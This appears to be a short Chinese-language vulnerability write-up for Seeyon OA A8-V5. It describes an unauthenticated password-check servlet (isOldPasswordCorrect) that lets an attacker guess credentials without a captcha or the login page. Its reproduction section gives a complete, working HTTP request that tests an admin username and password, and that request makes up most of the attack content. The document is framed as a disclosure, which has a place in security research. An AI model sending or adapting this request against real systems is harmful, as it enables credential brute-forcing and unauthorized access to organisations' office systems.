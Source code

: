```yaml
---
title: 致远OA A8-v5 无视验证码撞库
id: zhfly3357
---
```


# 致远OA A8-v5 无视验证码撞库

## 一、漏洞简介

致远A8-V5在设计时存在逻辑错误，用户修改密码时对原密码进行了验证，但是验证使用的服务存在未授权访问漏洞，系统对非合法请求的原密码验证功能进行回应，导致了无视验证码，无需login页面进行密码尝试

## 二、漏洞影响

致远OA A8-v5

## 三、复现过程

POST穷举用户和密码代码如下

```
GET /seeyon/getAjaxDataServlet?S=ajaxOrgManager&M=isOldPasswordCorrect&CL=true&RVT=XML&P_1_String=admin&P_2_String=wy123456 HTTP/1.0

Accept: */*

Accept-Language: zh-cn

Referer: [http://www.0-sec.org/seeyon/individualManager.do?method=managerFrame](http://www.0-sec.org/seeyon/individualManager.do?method=managerFrame)

requesttype: AJAX

Content-Type: application/x-www-form-urlencoded

Cookie:

User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko

Host: [www.0-sec.org](http://www.0-sec.org)

DNT: 1 `Proxy-Connection: Keep-Alive` 
```

![image](../img/28b7b833eb8bba5b404ac18972077e08.png)